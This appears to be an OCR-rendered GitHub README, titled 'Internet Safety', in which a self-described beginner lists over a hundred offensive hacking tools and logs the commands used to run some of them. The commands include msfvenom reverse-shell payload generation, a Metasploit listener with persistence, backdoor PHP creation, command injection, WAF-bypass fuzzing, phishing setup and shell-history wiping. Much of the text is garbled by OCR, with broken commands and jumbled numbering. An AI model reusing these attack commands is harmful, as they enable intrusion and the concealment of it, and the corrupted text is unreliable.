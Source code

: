 <h1 align="center">Internet Safety</h1>
B2G: NIST[180025,800171,800172,80053,CSF], KISMS, BNMRMiT, NZISM, GxPEUAnnex11, CCCS, 
GrammLeachBlileyAct, NERCCIPBCSI, PCIDSS, MASTRMG, ACSCISM, APRACPG234, CMMC[Level1-5], 
NCSCCAF, FFIEC, HIPAA, CCNENS, NYDFS23NYCRR500, ENISACybersecurityGuide, ABSCCIGv2,
RBIMasterDirection, FedRAMP, MASNotice655, BCPandDR, CISACyberEssentials, NBCTRMG,
FDA21CFRPart11, CISAWSFBv1.3, ACSCISM, ACSCEssential8, NCSCCloudSecPrinciples.

January 3, 2020. 111 broken apps. : 17 successful hacking apps. No previous knowledge about IT before. Script Kiddie. Prevention: [ ESLint, IDE plugins, and GitHub Actions ], [ MFA, password rotation, and separate browsers ], [ Black list, SPF, DKIM, and DMARC ].

1. Metasploit-framevork 2. Recon-ng 3. BabySploit 4. Dirbuster 5. Grabber 6. BurpSuite 7. Golismero 8. MITRT 9. Tornado 10. Weevely 
11. WPScan 12. theHarvester 13. theMole 14. Yasuo 15. Lazy 16. Katoolin 17. DVWA 18. Corsy 19. Armitage 20. BeEF 21. Eaphammer 
22. Fluxion 23. Gophish 24. Ngrok 25. Pdfbook 26. Sqid 27. Autopsy 28. Binwalk 29. Bulk_extractor 30. Dradis 31. Dmitry 32. Magic-Tree 
33. Facebookosint 34. Facebook-Location 35. Creepy 36. Ferret 37. Hamster-sidejack 38. Vulnhub 39. Airgeddon 40. Airoscript 41. Catphish 
42. Xsser 43. XSpear 44. Crackle 45. Crunch 46. Dawnscanner 47. Wafp 48. Dirb 50. Exploitpack 51. Fierce 52. Fimap 53. Foremost 
54. Galleta 55. Giskismet 56. Httrack 57. OpenVAS  58. Maltego 59. Tor 60. I2P 61. ParamPamPam 62. Photos 63. Rekall 64. Scapy 
65. Scrapy 66. SMTP2GO 67. TheFatRat 68. U3-Pwn 69. Usbris 70. Vega 71. Valnx 72. Volatility 73. W3af 74. W13Scan 75. Webhandler 
76. WebSlayer 77. Websploit 78. WhatBreach 79. XssScan 80. Weeman 81. Spiderfoot 82. Dnmap 83. Automater 84. Arachni 85. Gobuster 
86. ProxyStrike 87. Webshag 88. DotDotPwn 89. Skipfish 90. Cups 91. Spf 92. WhatWeb 93. Pwnat 94. DNSChef 95. Parsero  96. XssStrike  
97. Xplico 98. OSIF 99. DNSRecon 100. Wafw00f 101. Masscan 102. Legion 103. Iodine 104. Cadaver 105. Laudanum 106. Hfind FLS 107.
98. InSpy 108. OSINT-Spy 109. ReconCobra 110. Inquisitor 111. PhoneInfoga 112.

What worked for me with USB boot. 1. Remot3d, 2. IndoXploit, 3. XAttacker, 4. SQLMap, 5. Pappy, 6. Mitmproxy, 7. Arjun, 8. Commix, 9. Autosploit, 10. Witchxtool, 11. Mitmweb, 12. Poly, 13. Parameth, 14. Docem, 15. Chankro, 16. Wafninja, 17. Wafpass
```
apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y
id && pwd && uname -a && ip -br a
nano /esc/proxychains.com #dynamic_chain
socks4 lp port

curl -fst htps://download.docker.com/linux/debian/gpg 1 apt-key add -
echo 'deb (arch=amd64) https://download.docker.com/inux/debian buster stable'>/etc/apt/sources:list.d/docker.list
apt-get update && apt-get upgrade
apt-get remove docker docker-engine docker io && apt-get install docker-ce
docker run hello-world
systemct start docker

openvpn -config vpnbook-usl-tcp443.ovpn
User vpnbook Word 2k3a6rw
cat /dev/null > /root/bash_history && history -c && exit
add-on user-agent switcher
add-on cookie-editor && ghostery

chmod 755 xampp* && /xampp
/opt/lampp/lampp start
cd /opt/lampp 8&& /manager* && localhost
alias xpe//opt/ampp/lampp.stant"
source.bash_allases

Nmap på 148 targets tar 150 minutes.
proxychains nmap -IL ips.ixt-oG - I nikto -host -
localhost/phpmyadmin
CREATE TABLE -
nano /opt/lampp/htdocs/data.php
sqlmap -wizard
perl XAttacker.pl -l /root/ip.txt

~/.pappy/certs/server.pem > firefox
-/mitmproxy > *cert.pem firefox > preferens > ca > view > import > *pem
mitmweb && firefox 127...:8080
lsof -i:8080 && kill-9296
netstat -aon
mitmproxy -w wtf.mitm
nikto -host localhost/data.php -useproxy 127...:8080
pydoc3 mitmproxy.http
curl -T demo.php --url data.php -proxy localhost:8080 -I > PUT

VM > NAT > PF > Host > PHP Cookies
nmap -sV -O 10.0.2.2 -oX nx.xml
nvd.nist.gov | cpe:a:mysql:5.5.5
sploitus.com | CVE-2019-2822
curl --data "name=Daniel&weight-6666" -X POST http://localhost/ajax/ --proxy ::1:80
mitmproxy > e > vim > :wq /tmp/mi22 > ascii, CRLF, request headers

disk -l && umask 000 && touch /tmp/sys...
ls -ld /tmp/sys...
setfacl -b /tmp && getfacl /tmp
grep - acl /boot/config*
apt-get install nfs4-acl-tools-acl
mount | grep -i root && chmod -R a-w /var
chmod u=rwx, g=rwx, o=rwx /var
adduser -home /dragonfly dragonfly
getent group dragonfly   #  visar /etc/group
usermod -aG sudo dragonfly
gpasswd -a dragonfly 
sudo mv dawn* /dragonfly && ssl -l dragonfly
bundle install && rake install

python3 arjun.py -u http://localhost/ajax/
commix --url="http//localhost/ajax/" -file-write=/root/Pictures/kali.png  --file-dest=uploads/ --data="name=Fawkes&email=fox@gmail.com8submit=submit" -cookie=tvisited=94..23c" --proxy="httpc/127.0.0.1:8080/" 
./parameth.py -u http://localhost/act.php
commix --url="http://localhost/demo.php --data="name=discobisquits&weighr=discobisquits" --web-root=/opt/lampp/

pip2 install -r requirements.txt
docker-compose run -fin autosploit
python autosploit.py
openssl req -newkey rsa:2048 -nodes -keyout gophish.key -x509 -days 365 -out gophish.crt
pip install beautifulsoup4 requests
apt-get install libcurl4-openssl-dev
make && payloadmask
perl -MCPAN -e'install YAML.::XS'
apt-file update
apt-file search Net/RawlP.pm
apt-get install libnet-rawip-perl
perl witchxtool.pl

poly.py -c php -e b64 -p SHELL -j
docem.py -5 samples/xxe/sample_oxml_xxe_mod0/ -pm XSS -pf payloads/xss_all.txt -pt per_document -kt -sx docx
chankro.py --arch 64 --input METER --output back.php
bash Remot3d IndoXploit th3_p4ssw0rd_l0ck3
make && gcc -Wall -Wextra -o drink me.c
cat hello_world.x86_64 | ./drinkme
python wafninja.py fuzz -u "http://localhost/action.php?id=FUZZ/" -c "phpsessid=value" -t xss -o output.html
python3 wafpass.py --url http://localhost/action.phpPname=discobisquits8oweigth=discobisquits

scrapy genspider -t crawl exam coinbase.com && scrapy crawl quotes : -O q.json -a tag=humor scrapy shell 'url' : file.html && text response.css("span.text::text").getall() && quotesbot / scrapy toscrape-css -o q.json && scrapy fetch -nolog --headers url
```
msfconsole is a toolkit for embedding payloads to induce reverse shell of binaries. See more in exploit-db.com, searchsploit, msfvenom, setoolkit and u3-pwn. Firewalls are his enemy. Payload: Binary connection in reverse. Exploit: Virus that bring shell if executed. Encoder: Padding zeros in binary tails. Fuzzer: Overflow apps to crash with ICMP packets. LPORT: netcat -l 80 or apache2 start. RPORT: 22 with SSH mitm attack. Commands: use - multi/handler is a listener, show, set, exploit. PostgreSQL inside RDS, msfdb init, db_rebuild_cache. 

metasploitable 3 in virtualbox && msfvenom -p linux/x86/shell/reverse_tcp LHOST=ip LPORT=80 -e ruby/base64 -f bash -n 26 > install.sh
msfconsole, use exploit/multi/handler, set payload linux/x86/shell/reverse_tcp, show options, set LHOST=ip, exploit,, run persistence -h   

1. 746 issues, Gemfile.lock nokogiri. 2. API not worth the cost 3. Minimal function/limited 4. Java
5. Minimal function/limited 6. Java 7-9. Too many dependencies 10. System collapse 11. Gemfile.lock
12. Minimal function 13. Machinery module not exist 14. Syntax error 15. Dependencies ... 16. /apt/sources.list
17. Deletes mysql.socket 18. Syntax error 19. Based on Metasploit 20. Browser is not on the panel, packet storm
21. Hostapd, no pem, certificate problem 22. Mdk3, fake AP. packet storm 23. Config.json gulp. not online
24. API not worth the cost 25. Syntax error 26. /apt/sources.list 27-32. Minimal function 33-34. Syntax error
30. Dependencies 35. System collapse 36-37. Pipe kollaps 38. Too big for virtualbox 39. Dependencies 
40. System collapse 41. Nokogiri, Trollo API for trollop 42. Syntax error 43. Bundle install, Gemfile lock 
44. System collapse 45. Minimal function 46. Bundle install, Gemfile.lock 47. Syntax error 48. Wordlists 
49. unknown (x) 50. Java 51. Minimal function 52. Based on Metaspioit 53. Minimal function 54. unknown (x) 
55. Based on Kismet, drive routine error 56 Too old 57. Certificate error, resembles BeEF / BurpSuite
58. API not worth the cost 59-60. Too old 61. Error in GET 62. AttributeError 63 Virtualenv 
64. Six module not exist 65. No Sphinx module 66. Too old 67. Java 68. unknown (x) 69. Virtualenv 
70. 349 issues, Gemfile.lock 71. AttributeError 72. Too old 73-80. System collapse 81. Too old 
82. Minimal function 83. Based on Metasploit 84. API not worth the cost 85. SSL issues 86. Java 
87. System collapse 88. Syntax error 31. Minimal function 89. MIME db is deprecated 90. Unknown (x) 
91. Too old 92. SSL issues  93. Stdlib.h (c++) not exist 94 TypeError between 'str' och 'bool' 95 Too old  
96. TypeError not supported for signing 97. GeoLite mmdb not exist, HTTP 404 98. Minimal function 
